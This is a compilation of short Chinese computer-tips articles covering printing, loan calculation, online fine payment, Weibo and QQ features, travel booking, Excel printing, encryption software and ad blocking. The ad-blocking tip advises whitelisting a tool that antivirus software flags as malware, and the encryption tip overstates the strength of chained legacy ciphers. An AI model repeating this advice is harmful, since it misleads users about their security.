公司为了提高打印效率，在过道里放置了一台支持网络打印的多功能一体机，小张经常需要用它打印报表，但碰到打印高峰时，有时她还没来得及取走就被别人误拿了，害得她给经理的报告总是少几页。好在这台打印一体机具备私密打印功能，她学会使用这个功能后，上述问题就迎刃而解了。

- ①打印文档前，在打印机属性选项中把打印作业设置成“私密打印”，点击“确定”按钮后设置一下密码，这样所需要打印的资料会被暂时存到打印机的内部存储器当中。
- ②等到打印机前没有等待打印的人时，再去按打印机上的“作业”按钮并选择“私密”打印按钮，选择需要打印的内容并输入密码，最后点击“执行”，刚才打印的资料就会被顺序打印出来，就不用担心被人误拿了。

**小提示：** 私密打印功能需要一体机支持，市面上主流的一体机都支持这一功能，比如东芝e-studio 283以上型号的多功能一体机。
（文/张静）

# 银行利率调整 按揭贷款速算

相信很多申请过个人住房贷款的朋友，都是通过银行提供的一张住房按揭贷款计算表，来确定自己的每月还贷金额。央行最近再一次加息，如何能够快速计算贷款利率上调后，我们实际增加的月还贷金额呢？

其实，在Excel中就有这样的按揭计算函数PMT。该函数共有5个参数，但对于一般按揭房贷计算，只需要用到前三个参数，分别为贷款月利率(Rate)、还贷总月数(Nper)和贷款总额(Pv)，后两个可以省略。

①在E3单元格中输入函数“=PMT(B3/12,C3*12,D3)”，其中B3/12为月利率，C3*12为还贷总月数，D3为贷款总金额，按回车键即可计算出每月还贷金额，‘-’号表示支出。

②对于一笔贷款总额为50万，还贷时间为15年的个人住房公积金贷款，如果年利率从4.5%上调到4.75%，通过该计算公式，可以很快计算出我们的月还贷金额将增加64.19元。

> **小提示：**
> 希望那些已经或者即将申请住房贷款的朋友，都能够通过PMT函数，在利率变化前后，能对自己的月还贷金额做到心中有数，宁可多存一元，绝不少交一分，以防影响到个人信用度。（文/姚文连）

# 出游遭遇交通罚款 网上缴纳省时安全

五一期间，朋友驾车到山西游玩，回来时由于没按规定的车道行驶，当场被开交通违章罚单100元，好在没有计分，但需要到山西省的建设银行缴罚款。可是朋友违章处已快离开山西进入陕西省了，而且已是下午，如果当时返回去再找到最近的银行缴费，时间上有点来不及，而且来回也要花不少的过路费和汽油费，甚至会多于这100元的罚款。朋友知道在网上可购物和缴纳各种费用，于是决定回到陕西后再想办法办理缴罚款手续。

他搜索到一些代办网站，但这些网站要么不支持违章所在地区，要么代办费很高，或者操作麻烦，或支付方式单一，更让人不放心的是没有第三方担保，缴费很不安全。最后发现支付宝平台“生活助手”下提供了“交通罚款代缴”功能，不但操作简单，而且还有第三方担保，安全性高，有了这一服务，再也无需东找西找所支持的银行来缴纳交通违章费了，坐到电脑旁，再远的地域都可轻松完成缴费。

登录淘宝账号后点击“支付宝账户→我的生活助手”，选择菜单中的“更多”项进入“全部应用”页面，点击“交通罚款代缴”。首次使用应先点击“办理需知”，查看代办服务费用、目前可办理的地域和办理使用时间周期等信息。另外需要注意，涉及到扣分的违章是不办理的。

填写违章地点、违章内容、处罚单号，点击“新增违章车辆”并填写车牌号码、车辆类型以及发动机号和车身号的后6位。确认无误后从“违章车辆”下拉列表中选择车牌号码。

> **小提示：**
> ①驾驶执照上面登记了发动机号，而车身号码一般在副驾驶位置可找到，或者在右门边、反光镜处，不同的车型号码的位置不尽相同，实在找不到还可以电话咨询4S店。要特别注意处罚单号、违章代码、车牌号码、发动机号和车身号这些信息十分重要，一定要认真填写正确。
> ②如果需要邮寄回执和发票，勾选“需要邮寄回执和发票（代办费）”项，填好邮寄地址并确定后它就会自动计算出共需多少费用，点击“保存订单”后按提示操作即可完成付款。如果没有支付宝账户，也可使用银行卡来支付。
> ③如果交通违章不是现场处罚，而是事后通过网络查到交通违章的话（hao123网址之家各地交通违章查询http://www.hao123.com/haoserver/jiaotongcx.htm），也可使用这一功能来办理，只需在填写信息时，不要勾选“是现场单”项，其他操作相同。
> ④除了可在支付宝平台操作完成，也可以直接进入提供此服务的“至尊租车”网站http://www.toponecn.cn/进行操作。（文/博言）

# 巧用 “墙” 让微博更出彩

时下微博火得一塌糊涂，网友们开发的一些应用更火，比如用“照片墙”的微友就非常多，可谓是一个粉丝集体秀。其实还有更强大、更有特色的“墙”应用，适时使用它们可以让你玩微博的体验更爽快。

### 多维粉丝集体秀：6度空间
微博的“照片墙”应用是以平面方式展示粉丝的头像，想不想让粉丝头像以动感、多维方式展现呢？那就添加“6度空间”应用吧。从左侧“我的应用”下点击它进入“6度空间”页面，点击自己的头像，自己的粉丝群就会像礼花一样绽放显示出来，点击粉丝头像，她的粉丝群同样也会像礼花一样绽放开来。按住鼠标左键可拖动粉丝头像，改变它们的位置，很好玩哦！在粉丝头像上点击右键，其菜单中提供了查看微博、发送私信和发送微博，点击它们可以快速完成相应功能。点击自己头像或某个粉丝头像左下角的相机图标，就可以生成粉丝头像照片墙，并可将其发送到微博。

### 活跃的帅哥靓妹集体秀：正妹墙
想结识更多的微博美女吗？那就来应用“正妹墙”，它是一面汇集微博美女帅哥的照片墙，不是粉丝，不是好友，而是当前活跃的微博用户，方便你快速与她们联系。添加应用后，进入其页面，选择美女头像即可进入其微博主页。正妹墙等数据来源于微博应用“扣扣你”，每一个美女帅哥都是用户亲手挑出来的。在页面上方点击正妹墙、帅哥墙、萌物墙等，即可切换到相应页面，而且它们时时更新，记得常回来看看，说不定一不小心就会让你找到志同道合的美女朋友哦！

### 微博里的百度：辣图热博
平时在微博中想查找图片，你是不是一个一个消息来查找呢？其实不用那样辛苦，使用“辣图热博”来快速搜索吧，火图、辣图、热图、美女、爆笑趣图全可以轻松搜到。添加应用后，点击进入“微图搜搜”搜索页面，在文本框中输入关键词并点击“搜索”，很快可搜索到微博中所有符合条件的图片，并显示在“微图搜搜”主页面中，移动鼠标到图片上，就会放大显示该图片和微博内容，以方便阅读。同时，点击右上角的微博、转发和评论按钮可进行相关操作，十分方便。

### 微博图片秀：图墙
如果想按日期快速浏览微博热门图片，就使用“图墙”吧。添加应用后进入其页面，点击“热门微图”切换到其下，再使用“热门微图”后的日期选择按钮，选择一个想浏览图片的日期，这时鼠标移动到当天的微博热门图片上会显示出微博内容，点击可放大显示，此时可进行转发或收藏该条微博。点击“我的微图”，可方便查看自己微博的图片。

### 将最关注的人贴到墙上：新浪微博墙
每位微友都有几位特别关注的人，可是从众多微博信息列表中查找他们费时费力，那何不使用“新浪微博墙”这个应用把他们贴到墙上呢？添加该应用并进入后，从左侧关注中双击你最关注的人头像，将其以纸片方式贴到右侧墙上，一张纸片一个人，可同时贴多个，再根据自己的喜好调节每张纸片在墙上的位置，以后就可以第一时间看到这些人的最新微博，还可以方便地进行评论、转发、收藏、发新微博等操作。

> **小提示：应用的通用授权方法**
> 进入微博后，点击左侧的“常用导航”展开它，点击“查看更多应用”，在右侧的“搜索”应用的文本框中输入应用关键词，点击“搜索”，微博中的所有相关应用就列出来了，查看它们的介绍后，点击应用名称进入，再点击“立即应用”按钮，切换到“应用授权”页面，点击“授权”即可将其应用到自己的微博上。用同样的方法给需要的微博应用授权，授权后它们会出现在左侧“我的应用”列表中，使用时点击其名称即可。（文/赵晓琴）

# GIF先优化 聊天不出红叉叉

和好友用QQ聊天时发了一张GIF动画想要耍酷，不想成回复却是“图片没打开，出现红叉”，好不郁闷。出现红叉的原因，多是由于图片体积过大，加上网络状况不好造成的。利用Trout’s GIF Optimizer对GIF动画进行优化，减少它的体积，就能大大降低聊天窗口中的红叉数量。

打开程序界面，单击菜单File→Open，在弹出的打开对话框中，我选取了一张体积为33.5KB的GIF动画（也可以直接把文件拖进程序界面），去掉对Same as Input的勾选，单击保存按钮将优化后的GIF图片保存，此时再查看GIF动画的文件体积，已经变为10.4KB，而图像的质量几乎没有任何变化。

当然并非所有的GIF动画都可通过优化减小体积，打开图片后它会自动进行估算，并显示文件优化前的体积、优化后的体积、优化掉的体积及其所占百分比等信息。

如果所对应的%Save字段显示为0%，则说明该图片不会被优化。通过Original Graphic和Optimized GIF两个标签可以查看该图片优化前后的图像效果。

> **小提示：**
> Trout’s GIF Optimizer（下载地址：http://www.chemware.co.nz/GIFOptzr.zip）分为免费和共享两个版本，笔者使用的是只有固定优化模式的免费版。该软件对JPG和BMP等格式的图片同样支持，经试用发现，这类格式的图片虽能降低高达98%的文件体积，但优化后的图像效果非常糟糕，不建议使用。（文/赵毅仙）

# 以最低碳的模式下载资源

迅雷是老杜的首选下载工具，他下载的大都是个头巨大的资源，即使是迅雷这样的多线程下载工具也仍然需要较长的时间。如果一直让计算机处于全速状态进行下载，显然会耗费太多的资源。好在老杜已经用上了Windows 7，可以启用迅雷的“离开模式”。以最低碳的模式下载资源。运行迅雷，打开配置面板窗口，在左侧选择“任务默认属性”，在右侧勾选“启动“离开模式””复选框，确定之后即可生效。以后老杜在下载一些大的资源文件时，可以单击开始菜单“关机”按钮右侧的下拉箭头，从下拉菜单中选择“睡眠”，使Windows 7系统进入睡眠状态，此时显卡、声卡等设备将被关闭，而CPU、内存、硬盘、网卡仍然在正常运行，也就是说迅雷在低功耗状态下继续下载。 (文/王志军)

# 绑定MSN好友 QQ空间更新他也知

虽然我也有MSN账号，但由于QQ更符合国人使用习惯，而且QQ里面的好友也多，所以QQ会登录频繁一点。有时想写篇日志，发点新照片到QQ空间，但MSN中的好友如何知晓呢？莫非得登录MSN一个个通知不成？不必，通过QQ空间绑定MSN，就能将QQ动态信息同步到MSN中。打开QQ空间，进入“个人中心”，点击右上方的“设置”，单击左侧的“动态发布”，这时会看到MSN尚未绑定，点击“立即绑定”。此时浏览器会跳转到将QQ空间连接到Messenger的页面，键入自己的MSN账号和密码，其他默认设置保持不变，点击Connect（连接）即可。成功绑定后，QQ空间“动态发布”对话框中会显示“MSN已绑定”的文字提示。往后当你在QQ空间中更新了日志、照片或说说，你的MSN好友便会在MSN主界面或个人资料窗口里看到你的这些QQ动态信息。 (文/雨中飞)

# 照片中谁是那个她 圈出来告诉你

趁着年假，我和女友还有一对朋友一起到海南玩了一趟，拍了不少照片，回来都一一上传到了QQ空间中，许多都是四人合影，我的好朋友都想看看我的女友，我只好先将女友“圈起来”，这样众多好友就能第一时间知道她长的什么模样了。进入腾讯朋友我的主页，点击“相册”，从中打开一张照片，点击“圈人”，在照片上拖动鼠标，把你要圈的那个人圈起来，松开鼠标左键，这时会弹出好友选择器窗口。从中找到你圈中的这个好友名称，腾讯朋友会弹出圈人信息提示，使你的好朋友能第一时间得到圈人的相关信息，同时被圈人的好友也会知道她被圈出的相关信息。如果想查看圈人的效果，登录腾讯朋友个人主页，在“动静”选项卡中会给出你刚才圈人的这条信息。点击打开圈人的那张照片，当鼠标移动到你圈人的位置时，就会显示出具体的圈人信息了。 (文/雨中飞)

# 杜绝造成迅雷假死的小广告

迅雷右上角的小广告设计得很“巧妙”，当您的鼠标从其表面划过，立即会激活放大的广告面板，而且启动迅雷时，“迅雷资讯”弹出窗口不仅会不请自到，还会使迅雷进入短暂的“假死”状态，在低配置的电脑上尤为明显。虽花钱注册为VIP可免除上述烦恼，不过只要祭出记事本，我们也不用再无奈地忍受小广告的折磨了。在我的电脑中点击菜单“工具→文件夹选项”，在文件夹选项窗口的“查看”面板中勾选“显示所有文件和文件夹”项，允许显示所有的隐藏文件。之后打开“C:\Documents and Settings\Administrator\Local Settings\Temp\Thunder Network”文件夹（假设当前账户名为Administrator），迅雷的广告信息就保存在其中的thunder文件夹中。先将此文件夹删除，之后在窗口空白处点击右键选择“新建→文本文件”，创建一个空白的文本文件，将其改名为thunder，注意不带扩展名，并将其修改为只读属性。这样就用长度为0的thunder文件替换了原来的thunder文件夹。

①因为Windows的文件管理机制不允许在同一路径下存在两个相同名称的文件或者文件夹，当迅雷启动后试图读取原thunder文件夹中的数据时，因为找不到此文件夹，同时又无法创建该文件夹，当然就无从加载广告信息了。
②启动迅雷后，果然发现所有的广告都消失了，新闻栏也变得空空荡荡，不过新闻栏会出现“出错了！请重新加载”的提示信息，不过这无关紧要了，重要的是迅雷资讯窗口再也弹不出来了，这种清除广告的方法简单易行，几乎没有任何难度。

**小提示：**
①现在很多软件都内置了小广告，我们完全可以按照同样的方法去除这些“牛皮癣”。例如对于新版的千千静听来说，去除其弹出广告完全可以沿用此法。打开“C:\Program Files\TTPlayer”文件夹，在其中的info文件夹中保存着广告数据，只需将info文件夹删除，之后使用记事本创建一个名称为info的文件，就可以阻止千千静听弹出广告了。
②如果迅雷等软件安装在NTFS分区，您可以使用Windows安全权限管理机制，打开对应的广告文件夹属性窗口，在其安全面板中依次选择所有相关用户或组，在权限列表中的“拒绝”列中勾选“完全控制”项，同样可以达到禁用小广告的目的，不过该方法对FAT32分区无效。
③您还可以使用文件防火墙、Easy File Locker等第三方软件，对广告目录设置禁止访问等权限，同样可以达到禁用目的。不过该方法必须安装第三方软件，操作比较繁琐。 (文/郭建伟)

# 出国旅游 梦想变成完美计划

### 一、制订旅游计划
Plnrr虽是英文网站，但所有的问题都以图示提示，回答起来倒也十分简单。下面就小张的旅游计划制定过程呈现给大家。
问题1：去哪个城市？进入网站后，单击首页中的Get Started Now按钮，进入目的地选择页面，它提供了20个世界著名城市，单击想去的城市图标（比如：New York City,United States）。
问题2：何时到达，逗留几天？随后进入抵达日期指定界面，单击Choose your arrival date右侧的日历按钮，在弹出的日历中选择到达该城市的日期（比如：Fri May 27 2011），在接下来出现的网页中，单击代表旅游天数的图标（比如：3 days）。
问题3：旅游的主题是什么？如果想带孩子玩，单击滑板状图标；若希望多安排一些户外活动，单击树状图标；喜欢艺术的朋友，可以单击蒙娜丽莎画像图标；如果没有明确的主题，可单击The best of图标，让网站自己安排。
问题4：什么样的旅游强度？接下来需要选择一个旅游强度，它提供了5个强度，强度越大景点越多，我们可根据自己的身体情况选择合适的强度（比如：Moderate）。
问题5：住什么样的酒店？最后出现酒店选择页面，从一星到五星有五个等级的酒店供你选择，在需要的酒店星级图标上单击鼠标即可（比如：3星）。

### 二、查看行程安排
问题全部回答完毕，在网页中单击CLICK TO START，整个旅游的日程及行程安排就会在网页中显示出来。
①页面右侧的地图上，会用粗线标注出第一天的旅游路线，粗线上的圆圈数字，则是要游览的一个个景点标志，其中的楼房状图标是为你选择的居住地。
②页面中部还会告诉你到达某个景点的方式（坐出租车或步行），该景点游览的时间等信息。具体到某一景点的路线，则可以单击景点名称中的Show directions按钮展开查看。
③单击中部的Next按钮，可以查看下一天的行程安排。该部分内容建议采用翻译工具帮助查看。

### 三、修改原有设置
如果对网站制订的计划有些异议，也可以把自己的想法提交给网站，让网站酌情修改原有计划。如果想在某一景点多停留一些时间，可在界面中部找到该景点的标号，单击Change Duration文字右侧的下拉箭头，在弹出的窗口中勾选Let me decide选项，在下方选择游览时间，单击OK按钮完成。不想游览的景点，则单击该景点问号按钮右侧的下拉箭头，选择No Way选项。所有的修改一经提交，网站就会立刻重新生成旅游计划。 (文/赵毅仙)

## 机票旅店经济订 快乐完美自助游

我和夫君是一对超级旅游爱好者，每年都出去在国内国外到处转转，以往为了省事，我们就找家旅行社跟团旅行，不过后来有个机会让我们尝试了一下自助游，感觉非常爽快，回来后全家人一致认为，那次旅游是玩得最开心、最省钱的一次，这都要归功于如此便捷的电脑和网络，使我们的出行变得如此的方便、顺畅和舒心。

女婿在一家外企工作，经常在天上飞，没曾想他这样来回翱翔的时候，已经为家人积攒了旅途的资费。我们就用他积攒下来的飞行里程积分换成了我们夫妇俩的来回机票，趁女婿在贵州开会的功夫，赶紧飞过去与他会合，进行了一次全家性的黄果树瀑布之旅。

> 小贴士：
> 常飞行的朋友登记积分的表格时，要注意一开始就填写有可能用到你这个积分的家人或朋友的名字，因为登记后需要一段时间（大约一个月）之后才能生效。比如这次儿子也想和我们一起去旅游，可女婿的积分登记表上没有他的名字，虽然有足够的积分，可他也享受不到，还得自己花钱买机票。

### 机票需早定

出发日期确定后，我们就尽快着手订机票，想给儿子订上尽可能便宜的机票，我提前10天开始动手。虽然我对电脑不是很精通，不过就是我会的那两下子，就圆满完成了在网上订票的任务。

我在百度上输入“携程旅行网”，进入后输入我们所在的城市、需要到达的城市以及飞行日期，就用5折价给儿子买到了所需要的机票。

> 小贴士：
> 在网上订打折机票，通常是越早订打折越多，另外，出发和到达时间不太好的打折比较多，而除了周一和周五的机票打折较少外，其他时间则比较便宜。现在不论在家或上班，上网都很方便，可以常常抽个空就打开旅行网看一眼，没准儿就能碰上合适的打折机票。

### 住宿要经济

我们三个人，如果住宾馆需住两个标间，价格太高，即使是很一般的宾馆，比如“如家连锁经济酒店”，一个标准间为230元。因此，我就试图在网上找一下是否有家庭旅馆。于是在百度上输入“贵州家庭旅馆”，搜索结果立刻就出现了各种各样的“宾馆”和“公寓”，分别打开相关页面，对于酒店标间的一律砍掉，这样只剩下两家可以供我选择的“公寓”。

先后和他们电话联系后，最终我选择了这家温馨如家公寓，主要是因为它那里有满足我们需求的房间：房间内可以放两张双人床（这样我们三个人就都可以住下了），价格是145元/间，房间大约是30多平方米，有大落地窗和阳台，我怀着半信半疑的心情先将房间订了下来。

### 对比后拍板

由于旅馆是在网上预定的，虽然对方说可以去机场接机，但没见过面也不知对方底细，我就还是多留了一个“小心眼”，怕万一到了那里看现场不满意的话无法推脱，于是就没让对方去接，而是按照他提供的地址自己找去，乘坐机场大巴到达市中心，再打车直达家庭旅馆。在等候对方的时候，我无意中抬头看到了旁边的另一家宾馆，于是进去看了一下他们的标间，房间很一般，而且也太小了，价格是268元/间。

到了我预定的那家旅馆，看了一下我在网上订的房间，我们三个人不约而同地说，就是它吧。

当下我们就和对方签下了租赁合同，并交了预付款，我们打算一共住三天。

### 便宜一日游

原计划住下后再联系当地的旅行社参加黄果树瀑布的一日游，但在办入住手续的时候我顺便打听了一下，对方说可以帮我们联系当地的旅行社到这里来接，30分钟后他打电话来报价，我感觉比网上看到的便宜不少，就决定用他推荐的旅行社。

### 自主选线路

宾馆服务生小刘还告诉我，黄果树大瀑布这样的大景点需要跟团一起去，而有些地方则完全可以自己去，既便宜又活动自由。于是我们用女婿的iPad在房间上网，用他推荐的几个景点名到百度上一搜索，不仅能看到这些景点的风光图片，而且对门票价格和乘车路线都心里有底了。第二天就乘公交自行到了“天河潭景区”。第三天，我们又自行乘公交去了建于明洪武十一年（1378年）的“青岩古镇”，它具有密集的古建筑群和保存完好的古民居，并以浓厚的明末清初文化氛围而享誉海内外。

### 后记

这次自助游让我们全家人快乐无比，没想到我通过网络安排了一次这么完美的旅程。有了这个方便的家庭式宾馆，每天游玩回来后，我们就可以先回到宾馆休息一会儿，再去品尝贵州著名的酸汤鱼等令人垂涎欲滴的美味，还可以到楼下尝试大排档的各种小吃，既舒服又方便。如果有时间能多住上几日，还可以时常买点小青菜回客栈下点面条，好不惬意。手边再有个能随时随地上网的小本本，这样的旅程不仅舒心，而且太方便了，在这个美好的旅游季节，爱好旅游的朋友们，在你准备外出自助游时，只要注意过程中的细节，也一定能获得令你们全家无限欢欣的旅游体验。

（文/邱英婕）

## 网盘分享 手机派上用场

工作中经常要把一些资料共享给同事，有一些则需要征求意见，以前是申请一个公共邮箱，网盘或者把资料放在ftp上，然后用电话或飞信挨个通知，网盘使用虽然方便，但一是同事无法及时知道什么时候共享了新文件，需要麻烦地一一通知；二是不能使用手机处理文件，无法实现真正的移动办公，139邮箱的网盘则可以帮助我解决这些问题。

### 1. 移动办公 手机同步显示

139网盘是139邮箱自带的新业务，申请139邮箱和网盘无需支付任何费用(http://mail.10086.cn/)，当然前提是你必须有一个中国移动的手机号码。

登录邮箱后，单击手机网盘，就可以使用网盘服务。这个网盘和普通网盘几乎一样，使用非常简单。如果你的手机支持打开这些文件，就可以通过手机阅读它们，实现随时随地移动办公。

> 小提示：
> 推荐大家下载一个139网盘客户端，安装之后在桌面上会出现一个网盘的快捷方式，无需登录邮箱，在“我的电脑”中就可以直接使用，另外，安装网盘PC客户端后，文件在本地和网上同步保存，再也不怕硬盘损坏了。

### 2. 网盘文件分享 免费短信通知

最近要修订《数字电子技术》的课程标准，电子系的同事把标准发到我的邮箱中，我得先共享给大家，让大家提提意见。

打开网盘，选中《数字电子技术课程标准》文件，单击“共享”，在弹出的共享界面中输入相应的手机号码即可，一次可以共享给20个用移动手机号码的同事，确定后同事即可收到手机短信通知。

> 小提示：
> 如果对方是139邮箱用户，登录后在网盘“好友共享”中即可查看被共享的文件，如果是智能手机，可以直接在手机上查看邮件，未开通139邮箱的移动用户可通过随机生成的提取码查看共享的文件。

（文/赵建超）

## 节省纸张 表格分栏双面打

新官上任新举措，为节省开支，要求打印EXCEL表格时也要与WORD一样双面打印，而且列数较少的表格要分栏排版后再双面打印，但单位打印机不支持双面打印功能，EXCEL 2010本身也没有分栏和手动双面打印功能，每次都只能将其复制到WORD中操作，这让小王吃尽了苦头，请教达人朋友后找来“Excel多排表工具”和“EXCEL必备工具箱”两件免费宝贝，一下变得轻松多了。

### 一、表格分栏超简单

安装这两个小工具后，打开需要分栏打印的EXCEL文档，将表格标题和表头行先剪切到其它空工作表中备用。

- ①切换到“加载项”选项卡，选择“多排表工具→制作多排表”，在“多排表工具”对话框中设置各相关参数，注意“起始行号”设定为正式数据开始行，一定要勾选“新增工作表”和“清除公式”两项，点击“确定”后即可自动在新建工作表中进行分栏操作，很快就能得到分栏表格。

- ②随后将表格标题和表头行复制回来，并设置为顶端标题行，让打印时每页都打印它们，EXCEL 2010没有提供“装订线”宽度设置功能，可适当将左右边距设置到2cm左右，并将页面表格设置为“水平居中”，方便双面打印后装订，最后调整列宽、行高等参数，将打印的版式排好，准备手动双面打印。

### 二、双面打印也轻松

- ①点击“工具箱”选项卡，切换到“EXCEL必备工具箱”工具集，点击“EXCEL必备工具箱”打开其窗口，从“杂项”标签下选择“人工双面打印”。
- ②在“人工双面打印”对话框中勾选需双面打印的工作表，再勾选“逆页序打印”选项，准备好打印机和纸张，点击“开始双面打印”按钮，按提示操作，就会以逆页序打印奇数页。
- ③打印后给出提示，无需手工调整纸张顺序，只需将纸张翻过来放入打印机，点击“确定”即可继续打印偶数页，轻松完成双面打印工作。

小提示：
初次使用这两个小工具时，最好不要直接使用它们处理正式文档，多试验一下，掌握其操作技巧，再处理正式文档。
Excel多排表工具 4.0下载地址：
http://www.onlinedown.net/soft/35282.htm
EXCEL必备工具箱（原名EXCEL取数助手）v7.60简体中文官方版下载地址：
http://www.jz5u.com/Soft/apply/Word/18501.html

（文/青山漫步）

## 巧用“连环锁”打造“绝密天书”

一般的加密软件都是采用单一的加密手段，而且必须牢记密码才行。破译者只要知道了具体的加密算法，使用相应的解密工具就有可能破解其内容。而Secret Word采用混合加密的技术，预设多种强悍的加密算法，让您随心所欲地组合自己的加密序列，并分别为其配置复杂的密码，从而实现连环加密效果。它还可以将密钥导出为独立的文件，您无需费力地记忆密码，仅仅依靠密钥文件就可以实现解密操作，没有对应的密钥文件，想破解加密数据是完全不可能的。

下载地址：http://www.sqiag.com/...（具体地址按图中显示）

### 配置加密组合

首先我们需要创建密钥文件，该密钥文件是数据加解密的关键所在。

- ①在Secret Word主窗口点击New打开新的加密项目，在Encrypt Method面板中的Method栏中输入加密方法名称（例如“绝密天书”），在Description栏中输入描述信息，点击Add按钮。
- ②它预设了TripleDES、DES、Rijndael、RC2等加密算法（这些都是在加密领域出名的“狠”角色），选中其中某个算法（例如Rijndael）。
- ③在打开的窗口中输入密码，注意Total是指密码长度（这里为48位），点击OK即可完成该算法密钥的添加。
- ④按照同样的方法，分别点击Add按钮，选择所需的加密算法，并为之配置符合要求的密码。注意每一种加密算法要求的密码长度是不一样的：TripleDES为32位、DES为16位、Rijndael为48位、RC2为24位。
- ⑤Method Step栏中会列出所有添加的加密方法，选中对应的加密算法，Method Details下会显示其所处的加密序列号、密码等内容。要记住这么多密码仅靠脑力是远远不够的，它可以将其导出为独立的密钥文件，免去了记忆之苦。点击工具栏中的Save或Save As将其保存为独立的密钥文件（其后缀为.SWKey）。

小提示：Secret Word的特点是以内置的四种加密算法为基础，让您灵活地组合自己需要的加密序列。例如您可以交叉添加2个DES加密算法、3个RC2加密算法、1个TripleDES加密算法、5个Rijndael加密算法等等，每一个加密算法可以配置不同的密码，来组成强悍的加密组合。

### 数据加密和解密

- ①在Secret Word面板中的Source Text栏中输入原始文本，或者点击Paste按钮粘贴所需的数据。
- ②点击Encrypt按钮，它会根据预设的加密序列，按照次序使用对应的算法对原始数据进行反复加密处理。例如先使用DES算法加密原始数据，之后使用RC2算法对加密后的内容再次加密等等。
- ③最后点击Results Text栏中的Copy按钮，将最终加密的数据复制到剪切板上保存起来。
- ④别人得到加密数据后，没有密钥文件是无法解密的。如果您需要把文件发到别处，必须将密钥文件提前发送给对方，对方在Secret Word主窗口新建加密项目，在Encrypt Method面板中点击Import导入对应的密钥文件，之后在Secret Word面板中的Source Text栏中粘贴加密数据，点击Decrypt按钮，它就会根据导入的加密序列，使用与之匹配的密码，反方向对加密数据进行解密处理。之后在Results Text栏中就会显示原始的数据内容了。

小提示：实际测试表明，Secret Word加密和解密的速度很快。为了防止别人随意使用它来加解密数据，在使用完成后，最好在Encrypt Method面板中点击Clear按钮，清除加密算法列表，同时保存好密钥文件。

（文/郭建伟）

## 复印机坏了 打印机扫描仪临时替补

朋友打字部的复印机罢工了，修理好还得好多天，她不想失去常来复印的熟客，于是试着将扫描仪和打印机配合使用来实现复印功能，可是扫描得到的图像处理起来很费时间，而且很难达到与原件相同大小的效果。推荐她用“巧利彩色复印机”这个小工具后，总算帮她渡过了难关。

从 http://www.onlinedown.net/soft/20275.htm 下载“巧利彩色复印机 2.0”并安装，接通扫描仪和打印机电源，确保这些设备可以正常工作。

- ①打开软件主界面，点击“扫描图纸”按钮，在出现的“选择来源”对话框中选择与本机连接的扫描仪，点击“选定”，再点击“打印机设置”按钮，选择用于打印复印件的打印机名称，并设置好打印纸张等参数。
- ②掀开扫描仪上盖板，将复印原件放到扫描平台上，放下盖板，点击“扫描图纸”按钮，这时会弹出扫描参数设置窗口，根据要求设置好扫描模式（复印一般是黑白的，这儿选择“灰度照片”），点击“预览”，在预览框中拖动控制点框住需要的图像，点击“扫描”。
- ③点击“复印份数”后的箭头更改打印份数后，点击“复印当前页”就能将原件“复印”出来了。

小提示：经过一次设置和复印后，以后操作就更简单了，所用时间与使用真的复印机复印相差无几哦！如果需要放大的复印件，只需在“图片缩放比例”处输入放大比例即可。另外，如果你英文不错，还可以使用英文版的软件Photocopier Pro来实现。

（文/王彦博）

## 身处险境 一键连发呼救信息

在同一个城市上学的妹妹最近找了一份家教，我担心她一个女孩子常在外面跑不安全，便给她找了个贴身保镖“SmartSOS智能呼救”，装在她的智能手机上。当身处险境时，SmartSOS可以帮你快速地向别人发出事先编辑好的呼救信息(支持短信、电子邮件、彩信3种发送方式)，通过彩信或电子邮件的活还可以用摄像头拍照发送。如果手机自带GPS，还可以发送你当前的位置信息。激活后，该软件在后台无图标运行，这时通过热键就能快速发送求救信息！

该软件功能十分强大，不过在使用之前，我们必须对软件好好设置一番，这样才能达到预期的良好效果。

- ①常规设置：“是否启用”应选择“是”，“操作顺序”可以选择短信、电子邮件、彩信三者的优先顺序；“重复呼叫”建议设置为最大的10次；“操作间隔时间”尽量选择最短的5分钟；呼叫热键默认为“导航中键”，停止呼叫热键为“OK键”。
- ②短信呼救设置：“消息文本”可以预先输入求救的信息，比如“我有危险，快救我”；“联系人”可以设置10个联系人的电话号码，建议把最重要的亲人放在第一位。
- ③电子邮件呼救设置：和短信呼救的设置相同，只是将联系人的联系方式设置为电子邮件地址。
- ④彩信呼救设置：“摄像头使用”默认为主摄像头，“联系人”可预设10个联系人的电话号码。

设置完成后，当你遇到危险的时候，只需按下导航中键，你预设的求救信息就会不断地发送给所有的联系人，这样可以有效地帮助你尽快脱离危险。

（文/无问尚人）

## 网上看视频 广告屏蔽掉

在视频网站上欣赏电影电视剧，都需要忍受10~15秒不等的广告，而且之前的广告音量通常比视频的要大很多，经常让人一跳。虽然有许多屏蔽视频网广告工具，但大多只对某个或某几个视频网站有效，有的还带有病毒，而“视频网屏蔽广告工具v1.0绿色版”这款小工具能轻松搞定。

小提示：①“视频网屏蔽广告工具”会被一些安全和杀毒软件识别成恶意软件，会阻止其运行，这时添加其到信任即可运行使用；②它可以全部屏蔽所有网站，也可以选择屏蔽，目前支持搜狐、百度、奇艺、CNTV、新浪视频、pptv、乐视、搜狐高清、我乐网、6间房、土豆网、酷6网、优酷、激动网、天线视频、迅雷看看、youku等众多网站，想屏蔽所有视频网广告，则点击“一键功能”，选择“屏蔽所有视频网广告”即可；③其原理是通过修改系统的hosts文件内容来实现的，有时hosts文件会被病毒修改，以致一些网站不能访问，这时可以恢复hosts文件到原状，选择“一键功能”菜单下的“还原默认hosts文件”选项，将hosts文件恢复到系统默认状态，随后再执行屏蔽操作，又可以屏蔽视频网广告了。

### 一、屏蔽视频网广告

首先屏蔽一下常去的“优酷”视频网站广告，从列表中选择“优酷”，点击“屏蔽”，就会弹出屏蔽成功的提示。重新启动一下浏览器（支持目前所有流行的浏览器），进入优酷网欣赏视频，果然烦人的广告没有出现，而直接进入视频的播放。

### 二、全面而简单的屏蔽方法

如果不想使用这款工具，也可使用屏蔽视频网广告的代码文件来完成，只需找到C:\WINDOWS\system32\drivers\etc里面的hosts文件，双击用记事本打开，将“屏蔽视频网广告”中的相应代码内容复制到hosts文件内容的最后面，保存后即可实现屏蔽所有常用视频网站广告的功效。

小提示：用“屏蔽视频网广告”作为关键词在网上搜索，即可获得屏蔽视频网广告的相应代码；“视频网屏蔽广告工具”下载地址：http://down.chinaz.com/soft/29643.htm

（文/王彦博）

## 提成表不必手工录 产品价格自动速配

吃饭时间，本本还在忙着，小余问：“本本，忙啥呢？”

